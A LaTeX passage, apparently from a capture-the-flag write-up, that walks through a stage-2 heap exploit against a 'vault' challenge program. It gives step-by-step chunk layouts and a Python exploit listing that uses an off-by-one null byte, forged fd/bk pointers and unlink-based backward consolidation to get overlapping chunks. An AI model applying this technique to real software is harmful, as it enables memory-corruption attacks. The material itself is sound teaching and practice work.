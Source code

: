 \documentclass[12pt,a4paper]{article}
\begin{document}
\begin{enumerate}
  \item \textbf{Allocate Vault 0} (\texttt{size=0x108}): Contains a fake chunk
        at offset 0 with crafted \texttt{prev\_size=0}, \texttt{size=0x101},
        \texttt{fd=0x6031c8}, \texttt{bk=0x6031d0}. The last 8 bytes set the
        fake \texttt{prev\_size=0x100} that will appear in Vault 1's metadata.
  \item \textbf{Allocate Vault 1} (\texttt{size=0x108}): Contains a fake
        ``nextchunk'' header at offset \texttt{0xF0}
        (\texttt{prev\_size=0x100, size=0x21}) to pass the
        \texttt{chunksize(P) == prev\_size(next\_chunk)} integrity check.
  \item \textbf{Allocate Vault 2} (\texttt{size=0x18}): Barrier to prevent
        top-chunk consolidation.
  \item \textbf{Reseal Vault 0}: Re-writes the same payload. The off-by-one
        null byte overwrites Vault 1's chunk size from \texttt{0x111} to
        \texttt{0x100}, clearing the \texttt{PREV\_INUSE} bit.
  \item \textbf{Purge Vault 1}: \texttt{free()} sees \texttt{PREV\_INUSE=0},
        reads \texttt{prev\_size=0x100}, walks backward to our fake chunk $P$
        inside Vault 0. \texttt{unlink(P)} passes all checks. The merged
        chunk is \texttt{$\sim$0x210} bytes.
  \item \textbf{Allocate Vault 4} (\texttt{size=0x150}): Carved from the
        merged free chunk. Vault 4's data starts where our fake chunk was.
        At offset \texttt{+0x100} (overlapping Vault 1's old data), we
        write \texttt{0xC0FFEE1337}.
  \item \textbf{Claim:} \texttt{claim(stage=2, value=0xC0FFEE1337)}.
\end{enumerate}

\begin{lstlisting}[style=python, caption={Stage 2 exploit (key logic)}]
fake_fd = 0x6031e0 - 0x18  # 0x6031c8
fake_bk = 0x6031e0 - 0x10  # 0x6031d0

payload0 = p64(0) + p64(0x101) + p64(fake_fd) + p64(fake_bk)
payload0 = payload0.ljust(0x100, b'A')
payload0 += p64(0x100)     # fake prev_size for vault 1

store_vault(0, 0x108, b'Vault0', payload0)

payload1 = b'B'*0xF0 + p64(0x100) + p64(0x21) + b'C'*8
store_vault(1, 0x108, b'Vault1', payload1)
store_vault(2, 0x18,  b'Vault2', b'C'*0x18)

reseal_vault(0, payload0)  # off-by-one: 0x111 -> 0x100
purge_vault(1)             # backward consolidation + unlink

payload4 = b'D'*0x100 + p64(0xC0FFEE1337)
payload4 = payload4.ljust(0x150, b'E')
store_vault(4, 0x150, b'Vault4', payload4)

claim(stage=2, value=0xC0FFEE1337)
\end{lstlisting}
\end{document}
